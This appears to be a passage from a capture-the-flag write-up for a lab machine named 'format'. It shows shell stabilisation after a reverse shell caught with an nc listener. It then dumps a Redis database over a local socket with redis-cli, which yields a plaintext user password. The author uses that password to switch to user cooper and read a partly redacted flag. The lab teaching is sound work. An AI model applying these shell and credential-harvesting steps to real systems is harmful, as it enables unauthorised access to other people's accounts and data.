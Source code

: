 ## Horizontal Privilege Escalation

Let's stabilize the shell.

```
www-data@format:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@format:~$ ^Z
[1]+  Stopped                 nc -nvlp 9001

❯ stty raw -echo;fg;reset
nc -nvlp 9001

www-data@format:~$ export TERM=xterm
www-data@format:~$ stty rows 20 columns 189
```

Let's take a look at the Redis database, there should be some useful information. We can use `redis-cli` to connect to the UNIX socket by specifying `-s`

```bash
redis-cli -s /var/run/redis/redis.sock
```

Let's check the keys with `KEYS *` and dump all the value from the specific key with `HGETALL key`.

```
redis /var/run/redis/redis.sock> KEYS *
1) "cooper.dooper:sites"
2) "cooper.dooper"
redis /var/run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

I've obtained a password, let's use it to switch to the user `cooper`.

```
www-data@format:~$ su - cooper
Password:
cooper@format:~$
```

Indeed, we can use this password to switch to the user `cooper` and now we can retrieve the user flag.

```
cooper@format:~$ cat user.txt
b13339██████████████████████████
```
